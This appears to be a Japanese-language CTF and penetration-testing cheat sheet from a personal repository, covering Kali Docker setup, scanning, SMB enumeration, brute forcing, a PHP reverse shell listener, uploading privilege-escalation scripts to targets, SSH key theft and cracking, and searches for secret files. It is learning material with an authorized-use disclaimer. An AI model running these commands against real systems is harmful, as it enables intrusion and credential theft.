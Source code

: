 //////////////////////////////
// Settings
//////////////////////////////
:toc: macro
:toc-title: 目次
:toclevels: 5
:sectnums:
:sectanchors:
:sectlinks:
:idprefix:
:idseparator: -
ifndef::env-github[:icons: font]
ifdef::env-github[]
:status:
:outfilesuffix: .adoc
:caution-caption: :fire:
:important-caption: :exclamation:
:note-caption: :paperclip:
:tip-caption: :bulb:
:warning-caption: :warning:
endif::[]

//////////////////////////////
// Contents
//////////////////////////////
= CTF

[CAUTION]
====
KtokKawuは、自衛/検証/CTFのため、ハッキング技術を学習しています。 +
自分の管理外の端末や機器(一般に公開されているWebサイトや各種サーバやWi-Fiスポット、他人の端末や機器等)に対し、 +
非合法な目的で、本リポジトリにて公開しているツール類やテクニックを使用しないでください。 +
必ず自己責任の元、ローカル環境やCTF・バグバウンティ等で攻撃が許可されたサイトに対してのみ使用してください。 +
あらゆる人物/企業/団体等が、本リポジトリの内容を利用して起こした全ての事象に関して、KtokKawuは一切責任を負いません。
====

toc::[]

== Kali Dockerコンテナの作成

=== 初回の手順

下記をPowerShellで実行することで、検査用のKali Dockerコンテナを作成できます。

[PowerShell/CMD]
----
# Kali Linuxの公式イメージDL
docker pull kalilinux/kali-rolling

# Dockerfileを介して起動する場合
# docker image build -t kalilinux/kali-rolling:latest C:\path\to\Dockerfile
# コンテナ(初回)起動
docker run -it --name <C-NAME> kalilinux/kali-rolling
docker exec -it <CID> /bin/bash

# リポジトリの登録
echo "deb http://http.kali.org/kali kali-rolling main contrib non-free" > /etc/apt/sources.list \
&& echo "deb-src http://http.kali.org/kali kali-rolling main contrib non-free" >> /etc/apt/sources.list \
&& echo "deb http://http.kali.org/kali kali-last-snapshot main contrib non-free" >> /etc/apt/sources.list \
&& echo "deb http://http.kali.org/kali kali-experimental main contrib non-free" >> /etc/apt/sources.list

# Kali Linuxのパッケージインストール
apt -y update && apt -y upgrade
apt install -y kali-linux-default

# 他ツール、ライブラリ
apt install -y bash-completion build-essential bzip2 colordiff colortail curl exiftool gdb git iputils-ping iputils-tracepath jq libjpeg-dev libssl-dev libxml2-dev libxslt1-dev ltrace mariadb-client net-tools nodejs npm openvpn postgresql python-dev rlwrap smbclient steghide strace telnet tor vim wget yarnpkg zip zlib1g-dev
curl https://raw.githubusercontent.com/Paradoxis/StegCracker/master/stegcracker > /usr/local/bin/stegcracker
chmod +x /usr/local/bin/stegcracker

# apt install -y bash-completion build-essential bzip2 colordiff colortail libjpeg-dev libssl-dev nikto nmblookup pip python-pybloomfiltermmap rpcclient
# Setup gdb-peda
git clone https://github.com/longld/peda.git ~/peda \
&& echo "source ~/peda/peda.py" >> ~/.gdbinit

# Setup nmap CVE script
# Option Usage: --script=vulscan/vulscan.nse www.example.com
git clone https://github.com/scipag/vulscan ~/scipag_vulscan \
&& ln -s `pwd`/scipag_vulscan /usr/share/nmap/scripts/vulscan

# Install and configure AutoRecon
mkdir /tools \
&& git clone --depth 1 https://github.com/Tib3rius/AutoRecon.git /tools/AutoRecon \
&& cd /tools/AutoRecon \
&& pip3 install -r requirements.txt \
&& ln -s /tools/AutoRecon/src/autorecon/autorecon.py /usr/local/bin/autorecon

# Get some scripts
git clone https://github.com/pentestmonkey/php-reverse-shell ~/prh \
&& git clone https://github.com/lucyoa/kernel-exploits ~/exploits/ksploits \
&& git clone https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite ~/exploits/peass \
&& git clone https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack ~/exploits/unixploits \
&& git clone https://github.com/danielmiessler/SecLists /usr/share/seclists \
&& git clone https://github.com/andresriancho/w3af.git /opt/w3af \
/opt/w3af/w3af_console ; \
bash /tmp/w3af_dependency_install.sh ; \
echo 'export PATH=/opt/w3af:$PATH' >> /etc/profile

# Get Password list
mkdir ~/pwd-list \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/john.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/cain.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/conficker.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/500-worst-passwords.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/twitter-banned.txt.bz2 \
# Kaliイメージの「/usr/share/wordlists/rockyou.txt」の方が新しい
# && wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/phpbb.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/myspace.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/hotmail.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/faithwriters.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/elitehacker.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/hak5.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/alypaa.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/facebook-pastebay.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/porn-unknown.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/tuscl.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/facebook-phished.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/carders.cc.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/singles.org.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/english.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/german.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/us_cities.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/porno.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/honeynet.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/file-locations.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/fuzzing-strings.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/phpmyadmin-locations.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/web-extensions.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/web-mutations.txt.bz2 \
&& bzip2 -d ~/pwd-list/*.bz2

# コンテナ保存
docker stop <CID>
docker rename <CID> <C-NAME>
docker commit <CID> <REPO-NAME>:<TAG-NAME>

# コンテナ起動(ホスト側へポートフォワード)
# openvpnを利用するには、Linux capabilitiesのCAP_NET_ADMINを許可する必要があるため、「--cap-add NET_ADMIN」を追加
# 上記により、openvpn利用時の「ERROR: Cannot ioctl TUNSETIFF tun: Operation not permitted (errno=1)」を回避
# またmountを利用するには、Linux capabilitiesのCAP_SYS_ADMINを許可する必要があるため、「--cap-add SYS_ADMIN」を追加
docker images
docker run --cap-add NET_ADMIN  --cap-add SYS_ADMIN --name <C-NAME> -itd -p <HOST-PORT>:<C-PORT> <REPO-NAME>:<TAG-NAME>
docker ps -a

# 不要なコンテナ、イメージ削除
docker rm -f <CID>
docker rmi -f <IID>
----

=== 2回目以降のコンテナ利用

[PowerShell/CMD]
----
# コンテナ接続
docker exec -it <C-NAME> /bin/bash

# コンテナ開始/停止/再起動
docker stop/start/restart <C-NAME>

# コンテナ内からホストへファイルをコピー
docker cp <C-ID>:/file/path/within/container /host/path/target

# IP確認
docker inspect --format '{{ .NetworkSettings.IPAddress }}' <C-NAME>

# /bin/bash
# openvpn利用時の「ERROR: Cannot open TUN/TAP dev /dev/net/tun: No such file or directory (errno=2)」の回避
mkdir -p /dev/net
mknod /dev/net/tun c 10 200

# Try Hack MeへのOpen VPN接続
openvpn /etc/openvpn/[TryHackMeUserName].ovpn &
----
  
=== 注意事項

* Windows Firewallの受信規則のうち、パブリックの「com.docker.backend」が有効だと、 +
リバースシェルを張る時などのインバウンド通信が失敗してしまう。Linuxで構築する場合も同様。
* `--cap-add` を利用する代わりに `--privileged` でもopenvpnのエラー(errno=1)を回避できるが、 +
プライベートDockerインスタンスが特権モードで実行されると、ホストプロセスへのアクセスやエスカレーションを許してしまうため非推奨。
* Dockerインスタンスをstopし、再度 `docker start <C-NAME>` した際に出る下記エラーは、 +
管理者権限のPowerShellで当該コマンドを実行せずとも、 `docker restart <C-NAME>` で回避できる。
+
----
An attempt was made to access a socket in a way forbidden by its access permissions.
----
+
* 同じovpnファイルを用いて、dockerコンテナとホストOSそれぞれでopenvpnを張ると、 +
もう一方のopenvpnが阻害されるため、各所で異なるovpnファイルを利用するとよい。

== ハッキング技術メモ

=== ポートとOSSバージョンの確認

----
nmap -T5 --max-retries 2500 -sC -sV [TargetIP]
----

=== CVEのチェック

* nmap
+
----
git clone https://github.com/scipag/vulscan scipag_vulscan
ln -s `pwd`/scipag_vulscan /usr/share/nmap/scripts/vulscan
nmap -sV -p [TargetPort] --script=vulscan/vulscan.nse www.example.com [TargetIP]
----
+
* searchsploit
+
----
searchsploit [word]     # wordExapmle: 「ProFTPd 1.3.5」、「Apache 2.4.18」
----

=== ディレクトリ調査

オプションを増やすほど重くなることに注意。

----
gobuster dir \                    # ディレクトリ/ファイルの総当たりモード
         -u http://[TargetIP]/ \
#         -e \                     # URL全体を表示
#         -k \                     # SSL証明書の検証をスキップ、CTF系ではHTTPSは少なそう
#         -o ./result_gobuster.txt
#         -s 200 \                 # 301,302,403,404
         -t 64 \                  # 同時スレッド数、デフォルトは40らしい
         -w [DirList] \
         -x html,txt \            # php
----

DirList

* /usr/share/wordlists/dirb/common.txt
* /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

=== ファイル調査

* Linux
+
----
find / -name "FileName" -type f
grep "FileContents" -rl /
find / -find / -type f -print | xargs grep 'FileContents'
# 「anonymous」ユーザや判明したユーザでログイン
ftp [TargetIP]
# ls -laやpwd、cdで調査
# get FILENAME
----
+
* Windows
+
----
rem 管理者のみdiskpartを使用可能
echo list volume | diskpart
dir /s /b | find "FileNameOrFileFormat"
findstr /s /i FileContents c:\*
----

=== Enumeration

==== enum4linux

----
enum4linux -a [Target] | tee ./enum4linux.log
----

==== link:https://github.com/rebootuser/LinEnum[LinEnum]

----
# 攻撃者側
cd /var/tmp
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
python3 -m http.server [MyHostPort]

# ターゲット側
cd /var/tmp
which wget
wget [MyHostIP]:[MyHostPort]/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
----

=== Crypto

==== Base64

----
echo -n "username:password" | base64
echo "dXNlcm5hbWU6cGFzc3dvcmQ=" | base64 -d
----

==== asciicode

----
python3
>>> c=[72,101,108,108,111,44,32,87,111,114,108,100,33]
>>> ''.join([chr(i) for i in c])
'Hello, World!'
----

==== ROT

単換字式暗号（シーザー暗号）の処理

----
alias rot13="tr 'A-Za-z' 'N-ZA-Mn-za-m'"
alias rot47="tr '\!-~' 'P-~\!-O'"
----

----
$ echo "Uryyb Jbeyq!" | rot13
Hello World!
----

=== Forensics

==== Steganography

* Image
** Exif(Exchangeable image file)情報(JPEG、TIFF、JPEG XR)の確認
+
----
exiftool target.jpg
----
+
** ファイル情報の確認
+
----
# file type/category info
binwalk -e target.jpg
# target/embedded file data info
steghide info target.jpg
----
+
** ファイルのヘッダやフッタ、内部データ構造に基づくファイル復元
+
----
foremost target.jpg
----
+
** 埋込み情報(ファイル)の抽出
+
----
binwalk -D='.*' target.dat
steghide extract -sf target.jpg -p [password]
----
+
** 総当り攻撃による埋込み情報の取得
+
----
stegcracker target.jpeg /usr/share/wordlists/rockyou.txt
----
+
* zip
** メタ情報の確認
+
----
zipinfo -v file.zip
----
+
** 暗号化zipに対する既知平文攻撃 +
LinuxやMacのzipコマンド、他アーカイバの間で圧縮率に差異があるため、各zipの圧縮率はいずれかの方法で揃える。
+
----
pkcrack -C test.zip \       # 暗号化されたzipファイル
        -c plaintext.txt \  # 暗号化されたzipファイルの中で、平文が分かるファイル
        -p plaintext.txt \  # 平文ファイル
        -P plaintext.zip \  # 平文のファイルが入っている暗号化されていないzip
        -d target.zip       # 出力先（復号したzipファイルの名前）
----

==== 任意のファイル内容の抽出

----
$ grep \-o "thm{.*}" f.01
thm{example_flag}
----

==== ファイルヘッダの修正

一例として、「xxd」コマンドで16進数にダンプし、「dd」コマンドでファイル内容を修正する。

|===
|bs=byte数 |1回に読み書きするブロックサイズ(byte)を指定。 +
ブロックサイズには、例として1024の累乗ならK、1000の累乗ならKBが使える。
|conv=変換方法 |notrunc等の規定の変換方法で変換する。 +
変換方法の指定は「,」で区切り、複数指定可能。
|notrunc |ddコマンドの規定の変換方法の1つ。出力ファイルを切り詰めない。
|===

----
$ xxd file.png | head
00000000: 0000 0000 0d0a 1a0a 0000 000d 4948 4452  ............IHDR
00000010: 0000 02d0 0000 015e 0800 0000 0089 6e77  .......^......nw
$ printf '\x89\x50\x4e\x47' | dd conv=notrunc of=file.png bs=1
4+0 records in
4+0 records out
4 bytes copied, 0.000119739 s, 33.4 kB/s
$ xxd file.png | head
00000000: 8950 4e47 0d0a 1a0a 0000 000d 4948 4452  .PNG........IHDR
00000010: 0000 02d0 0000 015e 0800 0000 0089 6e77  .......^......nw
----

=== SMB Attack

==== Tools

[cols="1,5"]
|===
|ツール名 |説明

|nmblookup
|NetBIOS名の検索に使用されるNetBIOS over TCP/IPクライアントを収集

|smbclient
|SMB共有ディレクトリにアクセスするftpのようなクライアント

|nmap
|ポートスキャナ with スクリプト

|rpcclient
|クライアント側のMS-RPC機能を実行するツール

|enum4linux
|さまざまなsmb関数を列挙

|wireshark
|「ntlmssp.ntlmv2_response」でフィルタリングしてNTLMv2のトラフィックからsmbの情報を取得可能
|===

==== チェックリスト

* ホスト名の確認
+
----
# -A オプション：look up by IP address
nmblookup -A [ip]
----
+
* 共有フォルダの一覧
+
----
# nmapによる共有フォルダ一覧の表示(-pオプションがあるとscriptが動かない場合有り)
nmap -T5 --script nfs-ls,nfs-statfs,nfs-showmount -p 445 [TargetIP]
# ホスト上の共有フォルダ一覧とアクセス権を表示
smbmap -H [ip/hostname] -R
# SMBからファイルを取得
smbmap -H [ip/hostname] -R --download '.\Anonymous\staff.txt'
# 資格情報を取得後に再実行し、新しいアクセス権を表示
smbmap -H [ip] -d [domain] -u [user] -p [password]
# nullログインをチェックするため、"exit"は現れる可能性のある全PW要求を処理する
# -L オプション：指定されたホストの共有のリストを取得します
echo exit | smbclient -L \\\\[ip]
# --script smb-enum-shares：特定のsmb列挙スクリプト
# -p 139,445：smbポートの指定
nmap --script smb-enum-shares -p 139,445 [ip]
----
+
* NULLセッションでの確認
+
----
# 資格情報無しで何ができるか確認
smbmap -H [ip/hostname]
# 本コマンドの後、RPCコマンドを入力してみる
# -U ""：NULLセッション
# -N オプション：PWD無し
rpcclient -U "" -N [ip]
# 共有フォルダへの接続試行、空PWDでも行ける可能性有り。
smbclient \\\\[ip]\\[share name]
----
+
* 脆弱性の確認
+
----
# --script smb-vuln*：全smb脆弱性スキャンスクリプトを実行
nmap --script smb-vuln* -p 139,445 [ip]
----
+
* SMB全体のスキャン
+
----
enum4linux -a [ip]
----
+
上記内容の確認で注目する内容は下記。
+
. nmblookup同様の出力
. nullセッションのチェック
. 共有フォルダのリスト
. ドメイン情報
. パスワードポリシー
. RIDサイクリング出力
* 手操作確認 +
smbのバージョンを取得するスクリプト
+
.smbver.sh
----
#!/bin/sh
# Author: rewardone
# Description:
#   Requires root or enough permissions to use tcpdump
#   Will listen for the first 7 packets of a null login and grab the SMB Version
# Notes:
#   Will sometimes not capture or will print multiple lines.
#   May need to run a second time for success.
# Usage:
#   smbver.sh [IP] (port) [Samba]
if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi
if [ ! -z $2 ]; then rport=$2; else rport=139; fi
tcpdump -s0 -n -i tap0 src $rhost and port $rport -A -c 7 2>/dev/null | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'aUnixSamba.*[0-9a-z]' | tr -d '\n' & echo -n "$rhost: " &
echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null
sleep 0.5 && echo ""
----
+
上記スクリプトの結果が疑わしい時は、PCAPファイルから、smbバージョンを確認
+
----
# 例：Unix Samba 2.2.3a
check pcap
----

=== Bruteforce Attack

.Bruteforce tool list
[cols="2, 7a"]
|===
|ツール名 |サポートプロトコル

|Hydra
|TELNET, FTP, HTTP, HTTPS, HTTP-PROXY, SMB, SMBNT, MS-SQL, MYSQL, REXEC, irc, RSH, +
RLOGIN, CVS, SNMP, SMTP, SOCKS5, VNC, POP3, IMAP, NNTP, PCNFS, XMPP, ICQ, +
SAP/R3, LDAP2, LDAP3, Postgres, Teamspeak, Cisco auth, Cisco enable, AFP, Subversion/SVN, +
Firebird, LDAP2, Cisco AAA, Web form

|Medusa
|AFP, CVS, FTP, HTTP, IMAP, MS-SQL, MySQL, NetWare NCP, NNTP, PcAnywhere, POP3, +
PostgreSQL, REXEC, RLOGIN, RSH, SMBNT, SMTP-AUTH, SMTP-VRFY, SNMP, SSHv2, Subversion (SVN), +
Telnet, VMware Authentication Daemon (vmauthd), VNC, Generic Wrapper, Web Form

|Ncrack
|RDP, SSH, http(s), SMB, pop3(s), VNC, FTP, telnet
|===

==== hydra

* 速度効率的には、おおよそ ssh(2/s) < ftp(6/s) < http-basic(100/s) となる
* 下記を駆使することで、パスワードスプレー攻撃が可能 +
-l：uid固定、-L：uidリスト、-p：pwd固定、-P：pwdリスト
+
----
hydra -l [uname] \
      -P ~/pwd-list/[pwdtext] \
      [TargetIP] \
      [TargetProtocol] \        # 省略可能
      -V \                      # UID/PWDのクラック中にそれぞれを表示
      -f \                      # 指定のPWDが見つかったら止める
# Web form に対するクラックの場合
#     http-post-form \          # TargetProtocolの1つ
# Example: "[Login Page]:[Request Body]:[Error Message]"
#     "/path/to/login:uid=^USER^&pwd=^PASS^&Login=Login:Login Failed"
----

==== ncrack

* RDPサービスに関してはhydraより早いらしい
+
----
ncrack -u [uname] \
       -P ~/pwd-list/[pwdtext] \
       -T5 [TargetIP] \
       -p [TargetServicePort]
----

==== meduza

* 一番遅い
+
----
medusa -h [TargetIP] \
       -u [uname] \
       -P ~/pwd-list/[pwdtext] \
       -M [TragetService]
# Web Form
#      -M web-form \
#      -m FORM:"path/to/login" \
#      -m DENY-SIGNAL:"Example Access Denied" \
#      -m FORM-DATA:"post?uid=&pwd=&Login=ExampleLogin"
----

=== Penetration

==== PHPリバースシェル

===== Scripts

https://github.com/pentestmonkey/php-reverse-shell

===== 手順

----
vim php-reverse-shell.php # change "$ip" value to [MyHostIP]
rlwrap nc -lvnp 1234
# Uploading PRS file & Web Access
----

==== Web App attack

===== Tools

* Proxy Tool
** link:https://portswigger.net/burp[Burp Suite]
** link:https://mitmproxy.org/[mitmproxy]
** link:https://owasp.org/www-project-zap/[OWASP ZAP]
** link:https://github.com/DeNA/PacketProxy[Packet Proxy]
** link:https://www.telerik.com/fiddler[Telerik Fiddler]
* link:https://owasp.org/www-community/Vulnerability_Scanning_Tools[Scan/Fuzzing Tools]

===== Payloads

link:https://github.com/swisskyrepo/PayloadsAllTheThings[PayloadsAllTheThings]

==== RSAプライベートキーのクラック

----
scp [TargetUser]@[TargetIP]:/home/[TargetUser2]/.ssh/id_rsa /root/
/usr/share/john/ssh2john.py ./id_rsa > crack
john --format=SSH --wordlist=/usr/share/wordlists/rockyou.txt crack
john crack --show
chmod 600 id_rsa
----

=== Privilleged Escaration

==== Scripts

* link:https://github.com/lucyoa/kernel-exploits[kernel-exploits by lucyoa]
* link:https://github.com/sleventyeleven/linuxprivchecker[Linuxprivchecker by slevenyeleven]
* link:https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite[PEASS by carlospolop]
* link:https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack[Unix-Privilege-Escalation-Exploits-Pack by Kabot]

==== Upload

----
# 攻撃者側
cd /var/tmp
wget [Script]
python3 -m http.server [MyHostPort]

# ターゲット側 
cd /var/tmp
wget http://[MyHostIP]:[MyHostPort]/[Script]
chmod +x [Script]
----

.権限の緩いディレクトリの例
----
/var/tmp
/dev/shm
/var/lock
/run/lock
----

==== link:https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite[PEASS]

===== linPEAS

----
# 攻撃者側
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh

# ターゲット側(アップロード後)
./linpeas.sh
----

===== winPEAS

★coming soon

==== https://github.com/sleventyeleven/linuxprivchecker[Linuxprivchecker]

Python 2.6以降またはargparserがインストールされているシステムの場合、次のオプションを利用できるらしい。

----
# 攻撃者側
wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py

# ターゲット側(アップロード後)
python linuxprivchecker.py
----

==== 攻撃・防御のコツ

* id_rsaファイルや、RSAプライベートキーに当たる内容がないかfindコマンドで探す
* 「sudo -l」にて、特権で使えるコマンドを列挙し、当該コマンドのうち特権昇格できる方法をlink:https://gtfobins.github.io[GTFOBins]で探す
* ターゲット側でスクリプトを実行する際は、使っているユーザ権限で自由にファイル授受できるディレクトリに移動するとよい。 +
-> 攻撃者が足跡をなるべく残さないために何をしている...？ + 
　 tor、串、over ssh、ログ削除、rootで行動、と他には何があるか？ +
　 ->別サーバへログをリダイレクトしたほうがいい、権限認証もしっかりして侵入させない
+
.RHEL系
|===
|ディレクトリ/ファイル名|形式
|/var/run/utmp|バイナリ
|/var/log|テキスト/バイナリ
|===
+
.Debian系
|===
|ディレクトリ名|形式
|/var/log|テキスト/バイナリ
|===
+
※ logの設定は、/etc/rsyslog.confや/etc/rsyslog.d/*.confを確認
+
* 秘密情報の取得
+
----
find /  -iname "*pwd*" -or -iname "*pass*" -or -iname "*secret*" -or -name "id_rsa" 2>/dev/null
----

== 情報元

----
# Docker
https://hub.docker.com/u/kalilinux
https://www.kali.org/docs/containers/official-kalilinux-docker-images/
http://www.tohoho-web.com/docker/index.html
https://qiita.com/wMETAw/items/34ba5c980e2a38e548db
http://docs.docker.jp/index.html
# General
https://kakyouim.hatenablog.com/entry/2020/04/17/182049
https://www.aldeid.com/wiki/Main_Page
# Crypto
https://falconctf.hatenablog.com/
# SMB Attack
https://medium.com/@arnavtripathy98/smb-enumeration-for-penetration-testing-e782a328bf1b
https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html
# Forensic tools
https://qiita.com/knqyf263/items/6ebf06e27be7c48aab2e
https://github.com/Va5c0/Steghide-Brute-Force-Tool
# Directory Search
https://redteamtutorials.com/2018/11/19/gobuster-cheatsheet/
# Bruteforce Attack
https://redteamtutorials.com/2018/10/25/hydra-brute-force-techniques/
https://ozuma.hatenablog.jp/entry/20130601/1370094859
# Penetration
https://github.com/pentestmonkey/php-reverse-shell
# Privilege escalation
https://github.com/lucyoa/kernel-exploits
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack
https://null-byte.wonderhowto.com/how-to/use-linenum-identify-potential-privilege-escalation-vectors-0197225/
https://kakyouim.hatenablog.com/entry/2020/03/14/031746
# Password lists
https://wiki.skullsecurity.org/Passwords
https://github.com/danielmiessler/SecLists/tree/master/Passwords
# Asscidoctor
https://github.com/asciidoctor/asciidoctor/blob/master/README-jp.adoc
https://asciidoctor.org/docs/user-manual/
https://asciidoctor.org/docs/asciidoc-recommended-practices/
# Linux Log
https://qiita.com/Yorinton/items/897c1ccd6797a7df7805
# Linux capabilities
https://man7.org/linux/man-pages/man7/capabilities.7.html
----
